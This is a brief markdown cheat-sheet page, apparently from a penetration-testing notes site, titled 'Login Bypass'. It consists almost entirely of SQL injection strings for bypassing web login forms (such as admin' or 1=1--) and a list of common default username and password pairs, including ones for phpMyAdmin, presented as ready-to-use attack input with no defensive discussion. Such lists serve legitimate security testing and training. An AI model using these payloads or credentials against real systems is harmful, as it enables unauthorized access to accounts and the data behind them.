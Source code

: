 ```yaml
---
title: Login Bypass
desc: Bypass login form in target website.
tags: [Web]
alts: []
website:
render_with_liquid: false
---
```


## Using SQLi

```
admin'--
admin'#
admin' or 1=1--
admin' or '1'='1
admin' or 1=1#
```

<br />

## Default Credentials

```sh
admin:admin
admin:password
admin:password1
admin:password123
administrator:password
administrator:password1
administrator:password123

# PHPMyAdmin
root:(null)
root:password
```